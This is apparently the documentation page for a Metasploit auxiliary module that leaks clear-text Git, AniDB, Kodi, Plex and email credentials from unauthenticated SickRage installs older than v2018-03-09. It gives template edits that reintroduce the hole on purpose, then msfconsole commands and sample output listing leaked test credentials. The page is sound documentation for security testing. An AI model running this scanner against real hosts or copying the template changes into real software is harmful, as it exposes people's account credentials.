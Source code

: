 ## Description
  
 This module exploits a vulnerability in SickRage for versions under v2018-03-09. A simple GET request will return clear-text credentials for Github, Kodi, Plex, AniDB, etc. This exploit will only work if the user has not set credentials for the SickRage application. By default, SickRage credentials are not set.

## Vulnerable Application

  SickRage < v2018-03-09

### Installation and Setup

  The vulnerable versions of SickRage are no longer accessible, but the latest release can be made vulnerable with a few changes.
  The latest SickRage release for Windows can be found [here](https://github.com/SickRage/SickRageInstaller/releases).

## Verification Steps

  1.   Install the application
  2.   Navigate to `C:\SickRage\SickRage\gui\slick\views`
  3.   Open `config_general.mako`
  4.   Find the input element with the name `git_password`
  5.   Change the value from `${sickbeard.GIT_PASSWORD|hide}` to `${sickbeard.GIT_PASSWORD}`
  6.   Save the changes
  7.   Open `config_anime.mako`
  8.   Find the input element with the name `anidb_password`
  9.   Change the value from `${sickbeard.ANIDB_PASSWORD|hide}` to `${sickbeard.ANIDB_PASSWORD}`
  10.  Save the changes
  11.  Open `config_notifications.mako`
  12.  Find the input element with the name `kodi_password`
  13.  Change the value from `${sickbeard.KODI_PASSWORD|hide}` to `${sickbeard.KODI_PASSWORD}`
  14.  Find the input element with the name `plex_server_password`
  15.  Change the value from `${sickbeard.PLEX_SERVER_PASSWORD|hide}` to `${sickbeard.PLEX_SERVER_PASSWORD}`
  16.  Find the input element with the name `plex_client_password`
  17.  Change the value from `${sickbeard.PLEX_CLIENT_PASSWORD|hide}` to `${sickbeard.PLEX_CLIENT_PASSWORD}`
  18.  Find the input element with the name `email_password`
  19.  Change the value from `${sickbeard.EMAIL_PASSWORD|hide}` to `${sickbeard.EMAIL_PASSWORD}`
  20.  Save the changes
  21.  Start SickRage
  22.  Start msfconsole
  23.  Do: `use [auxiliary/scanner/http/http_sickrage_password_leak]`
  24.  Do: `set RHOSTS [IP]`
  25.  Do: `run`
  26.  The credentials that the user has set should be printed to the screen

## Scenarios

### Tested on Windows 7 x86

  ```
  msf5 > use auxiliary/scanner/http/http_sickrage_password_leak
  msf5 auxiliary(scanner/http/http_sickrage_password_leak) > set RHOSTS 192.168.37.130
  RHOSTS => 192.168.37.130
  msf5 auxiliary(scanner/http/http_sickrage_password_leak) > run

  [+] git username: myUsername
  [+] git password: myPassword
  [+] anidb username: anidb
  [+] anidb password: anidbpass
  [+] plex_server username: plexu
  [+] plex_server password: plexp
  [+] plex_client username: plextu
  [+] plex_client password: plextp
  [+] Email username: sickrage@sickrage.com
  [+] Email password: sickragepass
  [*] Auxiliary module execution completed
  msf5 auxiliary(scanner/http/http_sickrage_password_leak) >
  ```
